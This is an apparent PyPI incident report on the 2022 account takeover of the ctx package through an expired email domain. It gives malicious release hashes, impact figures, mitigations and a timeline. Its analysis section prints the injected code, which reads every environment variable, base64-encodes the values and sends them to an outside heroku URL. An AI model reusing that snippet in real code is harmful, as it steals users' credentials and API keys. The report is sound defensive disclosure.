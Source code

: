 =========================================================
Account Takeover and Malicious Replacement of ctx Project
=========================================================

Summary
=======

The ``ctx`` hosted project on PyPI was taken over via user account compromise
and replaced with a malicious project which contained runtime code which
collected the content of ``os.environ.items()`` when instantiating ``Ctx``
objects. The captured environment variables were sent as a base64 encoded query
parameter to a heroku application running at ``https://anti-theft-web.herokuapp.com``.

Between 2022-05-14T19:18:36Z and 2022-05-24T10:07:17Z the release files
listed below were hosted by PyPI at various times containing this malicious
payload.

If you installed the package between May 14, 2022 and May 24, 2022, and your
environment variables contain sensitive data like passwords and API keys (like
``AWS_ACCESS_KEY_ID`` and ``AWS_SECRET_ACCESS_KEY``), we advise you rotate your
passwords and keys, then perform an audit to determine if they were exploited.

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.2.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/4c/e2/f78e95454725d45602611560682cc1929ee18af496d2a2bc5430278d9153/ctx-0.2.2-py2.py3-none-any.whl>`_              | 2022-05-21T12:41:57.066Z | acf05948020a86092943b40d6e5c5b51ec6087923f58942216b9c5e8b853d3fb |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/55/2f/62dc2487337bbc3d761c8117f255a9ac234888bf46467455e5315814b737/ctx-0.1.2-1-py2.py3-none-any.whl>`_          | 2022-05-21T12:54:51.344Z | 5dc1bc1404c27699ee40fd71eeb586d6842e1478f9f14dab5d1763fc20dff3d3 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1.tar.gz <https://files.pythonhosted.org/packages/41/7a/2e658c7805560d0dcce50a469a0b68f48e78b3f3aa1d7431249f046f60f2/ctx-0.1.2-1.tar.gz>`_                                      | 2022-05-21T12:54:53.384Z | b40297af54e3f99b02e105f013265fd8d0a1b1e1f7f0b05bcb5dbdc9125b3bb5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/3f/54/c129c06f63fd7ea2c38fe933a2152ce40467de1db21739f117f6d166d90b/ctx-0.2.3-py2.py3-none-any.whl>`_              | 2022-05-21T16:17:17.016Z | f45a256c2f7aace635a82118dfadf6f6023315fc73d7d473b99acc40ecb12278 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3.tar.gz <https://files.pythonhosted.org/packages/08/0e/af68c739501eb7734d59fe1acefbf9248a9ebcb2691eabad20e1d3fd6a75/ctx-0.2.3.tar.gz>`_                                          | 2022-05-21T16:17:19.599Z | 15103c1af07a9a091dfe3b6c6dda9f1f11fd65bd9a878a9aaa79aee6bb8722cc |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/dd/68/27389f6a566a102de83539bc69c506085e8b8ac509119a4f17990e3bb4cb/ctx-0.2.2.1-py2.py3-none-any.whl>`_          | 2022-05-21T16:19:40.081Z | 5b484f642eaf4f5708d446e93f0f698f57bbece49d27808a59980358abdbe590 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1.tar.gz <https://files.pythonhosted.org/packages/f0/e6/f4effbd2483d061edbe62cd8107700fdaf7e6e5843cea70c8c859b5d0fca/ctx-0.2.2.1.tar.gz>`_                                      | 2022-05-21T16:19:42.337Z | f7342f723517f24b13f2ab2f702abb78692288138c1053dbe64bccd8bc1175d5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b0/fe/a2d322d861f73131c61020ad8e96f3b2a0bb4784e640e01e29a5be1454fe/ctx-0.2.4-py2.py3-none-any.whl>`_              | 2022-05-21T16:20:21.645Z | 280cc6f69a1cd80c9bf95272237d5620d14f226111066df1f0c0855722a89257 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4.tar.gz <https://files.pythonhosted.org/packages/8a/c4/04990148f252dcc62dec759b09580972f02c9fc49056c8d69fe7ff92b6f3/ctx-0.2.4.tar.gz>`_                                          | 2022-05-21T16:20:23.581Z | 9c1bb795d660ddb0c42166e546af06230443cbcda8780f0f3541017a8659e7cd |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b6/50/fd14560fac446587b442446871f91c7702631ee09e9b6b76221308ff7a6b/ctx-0.1.2-2-py2.py3-none-any.whl>`_          | 2022-05-21T16:24:52.810Z | e212e12d0983a9d81812f14fac8c207d1dc67a4ec9043af9aea0799b528dafa1 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/09/ff/9ef8bb7abebc4c680fa3a497ea694f66273b0d3eafa8d5ce005fbf88eb1e/ctx-0.2.5-py2.py3-none-any.whl>`_              | 2022-05-21T16:27:18.221Z | 86b8e1e529e9a566ac7ce7d85ffe4e5cf69df50cb0e6e38fbb6e34e6965815a0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5.tar.gz <https://files.pythonhosted.org/packages/1e/4e/8cdcf228d1d2dd666eacbde59a0cfa994fe58af7287f2272dcd30717a584/ctx-0.2.5.tar.gz>`_                                          | 2022-05-21T16:27:19.867Z | 34c0ae0c77160355eefa8e43b1d8c68df31c448b5a28fe78f32300bf89eb0813 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/33/ec/7771d928a431dabd4440dc420ed03029eddc4bd7067ffd0af49052174c6a/ctx-0.2.6-py2.py3-none-any.whl>`_              | 2022-05-21T16:28:19.342Z | 04b150ce4dbd2bcf054a9c2b676649f9da60b7ce2c74f31ebc4e1070dcc0fb94 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6.tar.gz <https://files.pythonhosted.org/packages/b7/0d/00ed86e3e8363820c05d53f8c850dd88137f9b8f6ef1eed255a63ab5cbbd/ctx-0.2.6.tar.gz>`_                                          | 2022-05-21T16:28:21.490Z | 4fdfd4e647c106cef2a3b2503473f9b68259cae45f89e5b6c9272d04a1dfaeb0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.tar.gz <https://files.pythonhosted.org/packages/19/8d/08520985e1433086304aa6e9671a47a94b3b949ca605bc883c1b15d03b68/ctx-0.2.tar.gz>`_                                              | 2022-05-14T23:52:46.207Z | 6c98fe4afa021885d5add151049aec7d812a31fb9a03bf5cdedefd42229b6b90 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.1.tar.gz <https://files.pythonhosted.org/packages/5a/71/74e1ea615c12401ffe569e3b486d6936e25bbeaeae981280a90c85aa2483/ctx-0.2.1.tar.gz>`_                                          | 2022-05-15T00:17:20.862Z | cdda4a2ec16bd52862e9b18aaa5525468318ba544fe426daeebc3d28e2b72897 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.tar.gz <https://files.pythonhosted.org/packages/83/2a/ea9818cdb7256ef86546d56c893d8c6504208766763e838583bded1353d4/ctx-0.2.2.tar.gz>`_                                          | 2022-05-15T00:44:53.658Z | b7644fa1e0872780690ce050c98aa2407c093473031ab5f7a8ce35c0d2fc077e |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.4.tar.gz <https://files.pythonhosted.org/packages/be/1e/71f23d7b4e6a7eed404b28f5fcaa3594b76d24701ef16861773887fc82b1/ctx-0.1.4.tar.gz>`_                                          | 2022-05-14T19:18:36.994Z | 17714ef9ff6d2eabc631638e2f092115fa569843f9ab45b6e9da23912b72f482 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

The original and sole releases prior to the compromise are still available as:

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.1.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/11/87/f6ab88cd29495120e255a092397095fb9a6ed0918a01fe104ca3389341df/ctx-0.1.2-py2.py3-none-any.whl>`_              | 2014-12-19T07:31:07.162Z | beb1628d6624b19c04a065fab6751feace594fd4072b3e649cafdd765182e441 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2.tar.gz <https://files.pythonhosted.org/packages/48/aa/94bc2fdfe7a524cde4275c115bcc0185e6a58fde460568c513242b314b73/ctx-0.1.2.tar.gz>`_                                          | 2014-12-19T07:31:04.062Z | edbff45647936da3cdadcfeaa64ee9f62b8ad629a5cea8caa4b63f5dc08b99c4 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

* Disclosure date: **2022-05-24** (Response initiated via reports submitted via security policy on `pypi.org <https://pypi.org/security/>`_)
* Disclosed by: Multiple Parties


Analysis and Mitigation
=======================

Once notified, a PyPI administrator confirmed that all current releases on the
index contained a similar exfiltration mechanism in the contents of the
``ctx.py`` file of the release files::

    class Ctx(dict):

        def __init__(self):

            self.sendRequest()

        def sendRequest(self):
            string = ""
            for _, value in os.environ.items():
                string += value+" "

            message_bytes = string.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')

            response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)

**Note:** Above code is reduced to core mechanism for clarity.

With the malicious nature of all release files confirmed, the PyPI
administrator used existing tools to:

* Remove the project, all releases, and all release files from the index
* Simultaneously prohibit the name ``ctx`` from being re-registered without
  admin intervention
* Freeze the compromised user account of the owner

The activity log of the user, action log on the project, metadata for all
historical uploads (including malicious), archives of the files, and their
locations in object storage were backed up for further analysis.

WHOIS records were then queried to confirm that the domain associated with the
owner user account had been recently registered on 2022-05-14T18:40:05Z.
Activity logs for the owner user account were then used to confirm that
malicious activity including password reset and uploads commenced just 12
minutes after domain registration. No mechanism for multi factor authentication
was enabled for the owner user account.

The PyPI administrators made the decision *not* to restore the original files
at this time, as PyPI policies state that actions on the index including
deletion are immutable.

If there is sufficient reason to restore the removed files a process that
complies with that contract will need to be developed.


Impact Assessment
=================

The ``ctx`` project was registered and uploaded to PyPI in 2014. According to
Libraries.io, the project on PyPI that declares it as a dependency is
``context-engine``. No known repositories that Libraries.io analyzes declares
``ctx`` as a dependency. This is additionally confirmed by
https://deps.dev/pypi/ctx/0.1.2/dependents.

Before the malicious releases were uploaded, ``ctx`` saw on average 1600
downloads per day. After malicious releases were uploaded, downloads rose to a
peak of 4548 on 2022-05-20. Rises like these are common after new project
releases due to mirrors of PyPI syncing in new changes.

In total we estimate that 27,000 malicious versions of this project were
downloaded from PyPI, with the majority of "overage" downloads being driven by
mirrors.

This hypothesis is supported by data from analysis of requests to
https://pypi.org/simple/ctx/ showing no associated rise in simple traffic from
installers.

.. image:: ./2022-05-24-ctx-domain-takeover-chart.png
   :width: 400
   :alt: Chart showing simple request and download counts for ctx project on pypi

Potential Future Mitigation
===========================

Domain takeovers are a known attack vector for compromising individual user
accounts on PyPI. PyPI administrators have responded to reports in the past of
publicly visible email addresses associated with project metadata containing
expired domains, which happened to match the domains of owner user accounts for
projects.

Currently, PyPI has some protections in place for expired email domains: if
PyPI sends an email to a user's email address, and that email bounces, PyPI
will disable the verified status of that email. As password resets require
verified email addresses, an attacker would be unable to use the expired domain
to gain access to the account. However, this depends on PyPI sending an email
to the expired domain in the time period between expiry and an attacker
attempting a takeover.

Performing this analysis on an ongoing basis and freezing accounts with expired
or near expiration domains is a potential mitigation that could protect absent
maintainers in the future, at the cost of increased support burden on the team
of PyPI moderators and admins.

Further Reccomendations
=======================

We also advise all PyPI users, but especially project maintainers, to enable
multi factor authentication on their PyPI accounts following the references at
https://pypi.org/help/#twofa.

Additionally, version-pinning and using `hash checking mode
<https://pip.pypa.io/en/stable/topics/secure-installs/#hash-checking-mode>`_
would prevent this attack, which depends on users automatically upgrading to
the latest available version at install-time.

The safety and pip-audit projects can be used to check for known
vulnerabilities in your dependencies:

* https://github.com/pyupio/safety
* https://github.com/trailofbits/pip-audit

You can join the security-sig mailing list to discuss Python security:
https://mail.python.org/mailman3/lists/security-sig.python.org/

Timeline
========

* Unknown: Domain hosting email for ``ctx`` owner user account expired
* 2022-05-10: Password reset attempted for ``ctx`` owner user account
* 2022-05-14T18:40:05Z: Domain associated with ``ctx`` owner user account registered
* 2022-05-14T18:52:40Z: ``ctx`` owner user account password successfully reset
* 2022-05-14T19:18:36Z - 2022-05-21T12:41:57Z: Malicious versions of ``ctx`` project uploaded
* 2022-05-21T12:50:23.107588: Original benign versions of ``ctx`` removed from index
* 2022-05-24: Reports of project takeover submitted on multiple channels including security@python.org
* 2022-05-24T10:07:17Z: All malicious releases of ``ctx`` project removed from index, project name prohibited from re-registration, and owner user account frozen
